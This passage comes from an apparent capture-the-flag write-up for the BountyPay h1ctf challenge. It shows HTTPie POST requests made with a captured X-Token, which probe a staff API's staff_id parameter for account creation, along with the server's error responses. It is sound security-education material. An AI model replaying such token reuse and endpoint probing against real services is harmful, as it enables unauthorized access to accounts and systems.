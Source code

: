 ```
http post https://api.bountypay.h1ctf.com/api/staff \
X-Token:8e9998ee3137ca9ade8f372739f062c1
```

```HTTP
HTTP/1.1 400 Bad Request
Connection: keep-alive
Content-Type: application/json
Date: Wed, 03 Jun 2020 21:21:15 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

[
    "Missing Parameter"
]
```

With the POST method we get a different error message "Missing Parameter". The logical thing to do is to try the parameters that we saw in the GET request (`name` and `staff_id`). When we send the parameter `staff_id` with a dummy value we get an error message "Invalid Staff ID".

```
http -f post https://api.bountypay.h1ctf.com/api/staff \
X-Token:8e9998ee3137ca9ade8f372739f062c1 \
staff_id=a
```

```HTTP
HTTP/1.1 404 Not Found
Connection: keep-alive
Content-Type: application/json
Date: Wed, 03 Jun 2020 21:22:44 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

[
    "Invalid Staff ID"
]
```

If we try set to value of `staff_id` to the value associated with Sam Jenkins or Brian Oliver we get an error saying "Staff Member has an account", which makes sense since this endpoint is probably used to create a new staff account.

```
http -f post https://api.bountypay.h1ctf.com/api/staff \
X-Token:8e9998ee3137ca9ade8f372739f062c1 \
staff_id=STF:KE624RQ2T9
```

```HTTP
HTTP/1.1 409 Conflict
Connection: keep-alive
Content-Type: application/json
Date: Wed, 03 Jun 2020 21:25:07 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

[
    "Staff Member already has an account"
]
```
